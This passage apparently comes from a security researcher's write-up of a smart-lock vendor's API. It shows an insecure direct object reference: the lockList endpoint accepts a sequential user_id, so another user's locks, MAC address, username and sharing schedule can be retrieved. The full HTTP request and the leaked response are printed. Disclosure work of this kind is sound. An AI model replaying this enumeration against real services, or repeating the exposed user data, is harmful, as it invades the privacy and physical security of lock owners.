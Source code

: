 
## Who are you, and what locks do you command?

If we look closely on the request to get a locklist (`m=Socket&a=locklist`), a user es defined with the `POST` parameter `user_id`. This ID seems to be a normal counter.

You can basically run over all 50k UserIDs and get every user having an Account.

```http
POST /?m=Socket&a=lockList HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Host: [redacted]
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.9.1

loginToken=1eb8bbfa1c[...redacted....]&type=2&cp=el&user_id=508486&page=1
```

The following Response does not show my User. It is user `508486`

```http
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 03 Aug 2022 20:03:16 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.2.24
Content-Length: 792

{
  "state": "success",
  "type": 0,
  "desc": "接口操作成功",
  "data": [
    {
      "mac": "A4:C1:38:22:0A:33",
      "isMaster": 0,
      "masterId": 506827,
      "masterName": "innovatekink",
      "shareType": 1,
      "time_zone": "+02:00",
      "shareLockTimeArray": [
        {
          "startTime": "00:00",
          "enable": 1,
          "endTime": "23:59",
          "repeat": 127
        },
        {
          "startTime": "00:00",
          "enable": 0,
          "endTime": "23:59",
          "repeat": 127
        },
        {
          "startTime": "00:00",
          "enable": 0,
          "endTime": "23:59",
          "repeat": 127
        }
      ],
      "shareLockTime": 0,
      "name": "Riri",
```
